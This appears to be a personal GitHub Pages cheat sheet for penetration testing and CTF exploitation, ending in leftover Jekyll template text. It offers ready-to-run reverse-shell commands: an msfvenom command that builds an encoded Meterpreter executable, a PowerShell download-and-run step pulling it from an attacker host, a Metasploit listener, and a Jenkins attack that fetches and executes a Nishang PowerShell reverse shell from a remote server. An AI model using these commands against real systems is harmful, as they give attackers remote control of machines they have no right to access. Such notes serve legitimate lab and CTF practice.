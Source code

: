 ## Pentest make easy

The purspose of this site is to make the Penetration testing and Privilege escation make easy. There are several exploits and various writeup avilable. But when it is needed its very difficult to find out the exact exploit and the writeup.

In this site I am attempting to collect most of the common exploits that appear in CTF and other exinvornments.

### Getting Revese shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

Once this is running, enter this command to start the reverse shell

```bash
Start-Process "shell-name.exe"
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

```


### Random Exploit collection

Here I am collectign some of the random exploits and their exploitation technqiues. Later I will categorised and group them to each group.

|s.no| Application Name | Vulnerability | Scenario | Working Exploits | Reverse Shell | Writeup and Reference |
| --- | --- | --- | --- | --- | --- | --- |
|1.| Jenkins  | default username and pass |Running in Windows | [Nishang](https://github.com/samratashok/nishang) to gain initial access.| Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it:```powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port``` You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server|[jenkis writeup](https://executeatwill.com/2020/04/01/TryHackMe-Alfred-Walkthrough/) |
| VNC  | Content Cell  |running in port 3389 and can be exploited using password lookup|


For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/dayaramb/dayaramb.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
